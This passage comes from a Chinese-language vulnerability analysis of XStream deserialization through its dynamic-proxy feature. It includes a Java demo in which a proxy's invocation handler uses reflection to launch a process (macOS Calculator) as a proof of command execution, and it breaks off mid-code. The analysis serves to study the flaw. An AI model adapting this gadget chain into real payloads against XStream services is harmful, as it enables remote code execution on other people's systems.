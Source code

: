 

#### 分析

先看一下整个调用的过程，首先看一下官方文档

![image-20201117122256560](https://tva1.sinaimg.cn/large/0081Kckwly1gks1ymxxqaj30t604ltar.jpg)

Xstream是允许通过\<dynamic-proxy\>去作为一个动态代理的，下面把真的导致反序列化漏洞的代码单独拉出来写一个demo



```java
package com.L4G;

import com.sun.beans.finder.MethodFinder;
import sun.reflect.misc.MethodUtil;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

//把最终导致了反序列化漏洞的代码单独拿出来
public class Demo {
    public static void main(String[] args) {
        Comparable<String> realSubject = new RealSubject(); //1
        InvocationHandler handler = new DynamicProxy(realSubject); //2
        Comparable<String> proxy = (Comparable<String>) Proxy.newProxyInstance(handler.getClass().getClassLoader(), realSubject.getClass().getInterfaces(), handler);//3
        System.out.println(proxy.getClass().getName());
        proxy.compareTo(null);
    }
}

class RealSubject implements Comparable {

    @Override
    public int compareTo(Object o) {
        return 0;
    }
}
class DynamicProxy implements InvocationHandler {
    Comparable realSubject;
    String action = "start";
    Object target;

    public DynamicProxy(Comparable<String> realSubject) {
        this.realSubject = realSubject;
    }

    public Object invoke(Object object, Method method, Object[] args) throws Throwable {
        this.realSubject.compareTo(args);
        invokeInternal(object, method, args);

        return null;
    } //4

    public Object invokeInternal(Object proxy, Method method, Object[] arguments) throws Exception {
        action = "start";
        target = new ProcessBuilder("open", "/System/Applications/Calculator.app");
        Method method1 = getMethod(target.getClass(), action, new Class[]{});
        return MethodUtil.invoke(method1, target, new Object[]{});
    }

    public Method getMethod(Class<?> type, String name, Class<?>... args){
        try {
```